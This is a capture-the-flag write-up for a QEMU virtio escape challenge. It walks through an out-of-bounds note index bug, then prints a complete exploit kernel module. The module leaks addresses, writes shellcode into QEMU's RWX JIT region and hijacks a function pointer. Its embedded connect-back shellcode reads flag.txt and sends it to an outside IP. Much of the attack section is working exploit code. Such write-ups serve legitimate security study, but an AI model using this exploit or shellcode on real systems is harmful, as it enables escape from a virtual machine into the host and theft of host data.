


# Virtio-note

was a pwn challenge, from [bi0sCTF 2024](https://ctftime.org/event/2117).

it was a qemu escape challenge (my favourite ones), and was quite a good challenge. 

I got first blood on it, and after 48H still had only 4 solves, so we can reasonnably say that it was no so easy..

------

### 1 - The Challenge

The challenge author (**k1R4**), provide us a `qemu` binary with a compiled-in virtio driver and debug symbols, source code of the virtio-driver, some notes, and an archive of the linux kernel source code used in the VM (kernel 6.7.2).

I will not go in details of what are virtio drivers in qemu, it's a kind of hardware emulation drivers that are light on ressources, and that are supposed to be faster than a full emulated devices.

The driver is separated in a backend, that is a virtio driver in qemu source code running on the host, and a frontend that is a virtio driver running in the guest VM kernel that communicate with the backend.

You can read more about virtio backend from qemu doc: [https://www.qemu.org/docs/master/devel/virtio-backends.html](https://www.qemu.org/docs/master/devel/virtio-backends.html)

the challenge author give the link of a github repo that he used for writing his driver: [https://github.com/matthias-prangl/virtio-mini](https://github.com/matthias-prangl/virtio-mini).

Personnaly I wrote mine, by reading qemu & kernel source code. Which is enough.

So we will have to write a kernel module, to be run inside the guest VM , to communicate with the custom virtio backend drivers notes.

The driver is not big, and most of the interesting functions for us are found in the source file `virtio-note.c`

```c
#include "qemu/osdep.h"
#include "hw/hw.h"
#include "hw/virtio/virtio.h"
#include "hw/virtio/virtio-note.h"
#include "qemu/iov.h"
#include "qemu/error-report.h"
#include "standard-headers/linux/virtio_ids.h"
#include "sysemu/runstate.h"

static uint64_t virtio_note_get_features(VirtIODevice *vdev, uint64_t f, Error **errp)
{
    return f;
}

static void virtio_note_set_status(VirtIODevice *vdev, uint8_t status)
{
    if (!vdev->vm_running) {
        return;
    }
    vdev->status = status;
}

static void virtio_note_handle_req(VirtIODevice *vdev, VirtQueue *vq) {
    VirtIONote *vnote = VIRTIO_NOTE(vdev);
    VirtQueueElement *vqe = 0;
    req_t *req = 0;

    while(!virtio_queue_ready(vq)) {
        return;
    }

    if (!runstate_check(RUN_STATE_RUNNING)) {
        return;
    }

    vqe = virtqueue_pop(vq, sizeof(VirtQueueElement));
    if(!vqe) goto end;

    if(vqe->out_sg->iov_len != sizeof(req_t)) goto end;
    req = calloc(1, sizeof(req_t));
    if(!req) goto end;
    if(iov_to_buf(vqe->out_sg, vqe->out_num, 0, req, vqe->out_sg->iov_len) != sizeof(req_t)) goto end;

    if(!vnote->notes[req->idx])
    {
        virtio_error(vdev, "Corrupted note encountered");
        goto end;
    }

    switch(req->op)
    {
        case READ:
            cpu_physical_memory_write(req->addr, vnote->notes[req->idx], NOTE_SZ);
            break;

        case WRITE:
            cpu_physical_memory_read(req->addr, vnote->notes[req->idx], NOTE_SZ);
            break;

        default:
            goto end;
    }

    virtqueue_push(vq, vqe, vqe->out_sg->iov_len);
    virtio_notify(vdev, vq);

end:
    g_free(vqe);
    free(req);
    return;
}

static void virtio_note_device_realize(DeviceState *dev, Error **errp) {
    VirtIODevice *vdev = VIRTIO_DEVICE(dev);
    VirtIONote *vnote = VIRTIO_NOTE(dev);
    virtio_init(vdev, VIRTIO_ID_NOTE, 0);
    vnote->vnq = virtio_add_queue(vdev, 4, virtio_note_handle_req);
    for(int i = 0; i < N_NOTES; i++)
    {
        vnote->notes[i] = calloc(NOTE_SZ, 1);
        if(!vnote->notes[i])
        {
            virtio_error(vdev, "Unable to initialize notes");
            return;
        }
    }
}

static void virtio_note_device_unrealize(DeviceState *dev) {
    VirtIODevice *vdev = VIRTIO_DEVICE(dev);
    VirtIONote *vnote = VIRTIO_NOTE(dev);
    for(int i = 0; i < N_NOTES; i++)
    {
        free(vnote->notes[i]);
        vnote->notes[i] = NULL;
    }
    virtio_cleanup(vdev);
}

static void virtio_note_class_init(ObjectClass *klass, void *data) {
    DeviceClass *dc = DEVICE_CLASS(klass);
    VirtioDeviceClass *vdc = VIRTIO_DEVICE_CLASS(klass);

    set_bit(DEVICE_CATEGORY_MISC, dc->categories);
    vdc->realize = virtio_note_device_realize;
    vdc->unrealize = virtio_note_device_unrealize;
    vdc->get_features = virtio_note_get_features;
    vdc->set_status = virtio_note_set_status;
}

static const TypeInfo virtio_note_info = {
    .name = TYPE_VIRTIO_NOTE,
    .parent = TYPE_VIRTIO_DEVICE,
    .instance_size = sizeof(VirtIONote),
    .class_init = virtio_note_class_init,
};

static void virtio_register_types(void) {
    type_register_static(&virtio_note_info);
}

type_init(virtio_register_types);
```


**So let's analyse quickly what this driver does:**

in the function `virtio_note_device_realize()` that is called at driver initialisation, you can see that it registers a function named `virtio_note_handle_req` that will process the request, that"s with this function that we will communicate via a request queue:

```c
vnote->vnq = virtio_add_queue(vdev, 4, virtio_note_handle_req);
```

then it allocates with `calloc()` `16` notes of `0x40` bytes long on heap, their addresses are recorded in the structure `VirtIONote`that looks like this:

```c
typedef struct VirtIONote {
    VirtIODevice parent_obj;
    VirtQueue *vnq;
    char *notes[N_NOTES];		// N_NOTES is 16
} VirtIONote;
```

we can communicate with the driver by pushing requests in queue , that he will process with the registered `virtio_note_handle_req` function, the request format is defined in `virtio-note.h`like this:

```c
typedef struct req_t {
    unsigned int idx;
    hwaddr addr;
    operation op;
} req_t;
```

It can be a READ request or a WRITE request, depending if we want to read a note, or write into a note. We must indicates a note index too, and a physical address from which data will be read, or written to (depending on direction defined in `operation`). The read and write operation are of 64 bytes long, a full note size.

------

### 2 - Where is the vulnerability ?

Good question, well if you look at request handling function, you can notice one thing:

```c
    switch(req->op)
    {
        case READ:
            cpu_physical_memory_write(req->addr, vnote->notes[req->idx], NOTE_SZ);
            break;

        case WRITE:
            cpu_physical_memory_read(req->addr, vnote->notes[req->idx], NOTE_SZ);
            break;

        default:
            goto end;
    }
```

Depending on requested operation, a note is read or written from the requested index `req->idx`, but there are not checks anywhere to verify that the requested index is greater than 16, which is the default number of notes.

So we have a OOB access to the notes `VirtIONote`table, that's nice..

------

### 3 - How to exploit it ?

Ok, let's put a breakpoint at handling function `virtio_note_handle_req` and check what is on heap after the table, to see how we can exploit the OOB access.



You can see first the 16 entries of `vnotes->notes[16]` pointing to the 16 notes allocated on heap too.

And at index 19 (in yellow) you can see a pointer that points to index 30 on heap. So if we use index 19 we can read or write a zone of 64 bytes starting here at address 0x5555576df4a0 (at offset 30), this zone is in yellow too.

What we can do is writing an address into this 64 bytes zone, for example at offset 32 (which contains the string "e-device>").  Then by reading or writing at index 32, we can write and read 64 bytes where we want.

So in the end, we will have a perfectly controlled `READ/WRITE Primitive`!! More than enough to pwn qemu.

------

### 4 - So what's the plan now ?

Well,  the plan is:

1. we leak an heap address, we will use index 26 for that, it points to various heap addresses, some near from us.
2. we leak an address belonging to qemu binary (`qobject_input_type_null`) to calculate qemu binary mapping base, the address at index 34
3. now that we know qemu mapping base, we will leak `tcg_qemu_tb_exec`var in qemu .bss, which points to the RWX zone used by qemu to generate jit code. Ideal place to write a shellcode no ?
4. we will search address of `virtio_note_handle_req`function pointer on heap, that function pointer belong to the driver structures allocated on heap, and will be call when we are sending a command to the drivers.
5. copy our shellcode in RWX zone, we will write it near the end of the zone, for not being overwritted by qemu in between.
6. overwrite the `virtio_note_handle_req` we found on heap, with the address of our shellcode in RWX zone.
7. Send any command to the virtio driver, that will execute our shellcode.

We will use a shellcode that connect back to a given IP and port, and that will send on the socket the content of file  `flag.txt` and like this we will get our flag..



------

### 5 - The Exploit

I did not have the time to clean much the exploit ,or to rewrite it more cleanly. sorry in advance 🤷

The exploit in a kernel module that needs to be compiled , and loaded in to the VM, with insmod. It will make qemu execute the shellcode.. you have to replace the shellcode by yours..(I leave that as an exercise for you...)

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/virtio.h>
#include <linux/virtio_config.h>
#include <uapi/linux/virtio_ids.h>
#include <linux/scatterlist.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("nobodyisnobody");
MODULE_DESCRIPTION("VirtIO Note Driver");

#define VIRTIO_ID_NOTE 42

#define READ 0
#define WRITE 1

// connect back shellcode, open flag.txt and send it on socket
unsigned char shellc[] = {0x48, 0x83, 0xec, 0x78, 0x6a, 0x29, 0x58, 0x99, 0x6a, 0x2, 0x5f, 0x6a, 0x1, 0x5e, 0xf, 0x5, 0x89, 0xc5, 0x97, 0xb0, 0x2a, 0x48, 0xb9, 0xfe, 0xff, 0xcf, 0x35, 0xfa, 0x0, 0x93, 0x3f, 0x48, 0xf7, 0xd9, 0x51, 0x54, 0x5e, 0xb2, 0x10, 0xf, 0x5, 0x48, 0x8d, 0x3d, 0x18, 0x0, 0x0, 0x0, 0x31, 0xf6, 0x6a, 0x2, 0x58, 0xf, 0x5, 0x89, 0xef, 0x89, 0xc6, 0x31, 0xd2, 0x6a, 0x78, 0x41, 0x5a, 0x6a, 0x28, 0x58, 0xf, 0x5, 0xeb, 0xfe, 0x66, 0x6c, 0x61, 0x67, 0x2e, 0x74, 0x78, 0x74, 0x0};

typedef struct req_t {
    unsigned int idx;
    phys_addr_t addr;
    int op;
} req_t;

struct virtio_note_info {
    struct virtio_device *vdev;
    struct virtqueue *vq;
};

static void send_request(struct virtio_note_info *note_info, req_t *request_buff)
{
	unsigned int len;
    struct scatterlist sg;
    
    // Prepare scatter-gather list and add the buffer
    sg_init_one(&sg, request_buff, sizeof(req_t));
    if (virtqueue_add_outbuf(note_info->vq, &sg, 1, request_buff, GFP_KERNEL) < 0) {
        printk(KERN_ERR "VirtIO Note: Error adding buffer\n");
        return;
    }
    virtqueue_kick(note_info->vq);
    // Wait for the buffer to be used by the device
    while (virtqueue_get_buf(note_info->vq, &len) == NULL)
        cpu_relax();

}

static int virtio_note_probe(struct virtio_device *vdev)
{
struct virtio_note_info *note_info;
req_t *request_buff;
char *data;
char *data2;
uint64_t qemu_base, rwx_base;
uint64_t heap_addr, target, offset, shellcode_offset;

    note_info = kmalloc(sizeof(struct virtio_note_info), GFP_KERNEL);
    if (!note_info)
        return -ENOMEM;
   
    note_info->vdev = vdev;
    note_info->vq = virtio_find_single_vq(vdev, NULL, "note-queue");
    if (IS_ERR(note_info->vq)) {
        kfree(note_info);
        return PTR_ERR(note_info->vq);
    }

    // Allocate and prepare your request buffer
    request_buff = kmalloc(sizeof(req_t), GFP_KERNEL);
    if (!request_buff) {
        kfree(note_info);
        return -ENOMEM;
    }
    
    data = kmalloc(0x40, GFP_KERNEL);
    data2 = kmalloc(0x40, GFP_KERNEL);

    // leak heap address
    request_buff->idx = 26;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    heap_addr = *(uint64_t *)(data+0x10);
    printk(KERN_DEBUG "1st heap addr leaked:  0x%llx\n", heap_addr);

    // leak a qemu address to calculate qemu base
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    qemu_base = *(uint64_t *)(data+0x20) - 0x86c800;
    printk(KERN_DEBUG "qemu binary base leaked:  0x%llx\n", qemu_base);

    /* leak tcg_qemu_tb_exec value in qemu .bss to get RWX zone address*/
    *(uint64_t *)(data+0x10) = (qemu_base+0x1cffb80);
    // Prepare a WRITE request
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

    // leak rwx zone address
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    rwx_base = *(uint64_t *)data2;
    printk(KERN_DEBUG "rwx base leaked:  0x%llx\n", rwx_base);


	/* search for function virtio_note_handle_req on heap */
	target = qemu_base + 0x69f0d0;
	offset = 0;
    while (1)
    {
		*(uint64_t *)(data+0x10) = (heap_addr + offset);
		// Prepare a WRITE request
		request_buff->idx = 19;      // Example index
		request_buff->addr = virt_to_phys(data); // Example address
		request_buff->op = WRITE;   // Example operation
		send_request(note_info, request_buff);

		// read second heap addr
		request_buff->idx = 32;      // Example index
		request_buff->addr = virt_to_phys(data2); // Example address
		request_buff->op = READ;   // Example operation
		send_request(note_info, request_buff);
		if (*(uint64_t *)data2 == target)
			break;
		offset += 8;
	}
    printk(KERN_DEBUG "target found at:  0x%llx\n", heap_addr+offset);

	/* write our shellcode in rwx zone */
    shellcode_offset = 0x3ffe000;
    // rwx zone to copy shellcode
    *(uint64_t *)(data+0x10) = (rwx_base+shellcode_offset);
    // Prepare a WRITE request
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

	memcpy(data2,shellc,64);
    // Example initialization of request
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

    // rwx zone to copy shellcode
    *(uint64_t *)(data+0x10) = (rwx_base+shellcode_offset+0x40);
    // Prepare a WRITE request
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

	memcpy(data2,&shellc[64],sizeof(shellc)-64);
    // Example initialization of request
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

    printk(KERN_DEBUG "shellcode copied at:  0x%llx\n", rwx_base+shellcode_offset);

	/* overwrite virtio_note_handle_req on heap with our shellcode address */
	*(uint64_t *)(data+0x10) = (heap_addr + offset);
	// Prepare a WRITE request
	request_buff->idx = 19;      // Example index
	request_buff->addr = virt_to_phys(data); // Example address
	request_buff->op = WRITE;   // Example operation
	send_request(note_info, request_buff);
    // modify function ptr

    // read data 
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    *(uint64_t *)data2 = (rwx_base+shellcode_offset);
    // write data back
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

 
    printk(KERN_DEBUG "executing shellcode...\n");

    // This one should get us code exec
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);

    kfree(data);
    kfree(request_buff);
    return 0;
}

static void virtio_note_remove(struct virtio_device *vdev)
{
    printk(KERN_INFO "VirtIO Note: Device removed\n");
    // Perform any necessary cleanup
}

static struct virtio_device_id id_table[] = {
    { VIRTIO_ID_NOTE, VIRTIO_DEV_ANY_ID },
    { 0 },
};

static struct virtio_driver virtio_note_driver = {
    .driver.name = KBUILD_MODNAME,
    .driver.owner = THIS_MODULE,
    .id_table = id_table,
    .probe = virtio_note_probe,
    .remove = virtio_note_remove,
};

static int __init virtio_note_init(void)
{
    return register_virtio_driver(&virtio_note_driver);
}

static void __exit virtio_note_exit(void)
{
    unregister_virtio_driver(&virtio_note_driver);
}

module_init(virtio_note_init);
module_exit(virtio_note_exit);
```

to compile it, just unpack the source or the kernel given by the challenge author, configure it as explained in the challenge readme.

the you can create a simple Makefile (let's say that the exploit module is named `mod.c`)

```makefile
obj-m += mod.o
KDIR := ./linux-6.7.2/

all:
	$(MAKE) -C $(KDIR) M=$(PWD) modules

clean:
	$(MAKE) -C $(KDIR) M=$(PWD) clean
```

and do make it will compile the `mod.ko`kernel module, ready to be loaded in the guest VM.

and that's all...!!!

like everytime... 🥷 

**nobodyisnobody is still hacking..** 

